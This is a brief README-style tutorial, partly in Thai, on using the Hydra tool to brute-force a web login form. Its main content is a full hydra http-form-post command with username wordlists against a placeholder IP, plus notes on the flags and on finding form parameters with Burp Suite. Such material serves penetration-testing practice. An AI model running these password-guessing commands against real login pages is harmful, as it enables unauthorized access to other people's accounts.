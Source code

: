 # HAILHYDRA
# how to hydra  </br>
$ hydra -L username.txt -p aaa 192.168.x.x -V http-form-post "/PATH/login:username=^USER^&password=^PASS^:Invalid username" </br>

--username </br>
-l ชื่อหนึ่งชื่อ </br>
-L wordlist </br>

--password </br>
-p รหัสหนึ่งรหัส </br>
-P wordlist </br>

-V โชว์ รหัส พาส ระหว่างเดา </br>

path:parameters:F </br>
ในส่วนนี้ใช้ burb suit ดูได้ </br>
"/PATH/login.php     :   username=^USER^&password=^PASS^    :      F=Invalid username" </br>

username, password มาจากเว็บ </br>

^USER^ --> username ที่ต้องการให้เดา </br>
^PASS^ --> password ที่ต้องการให้เดา


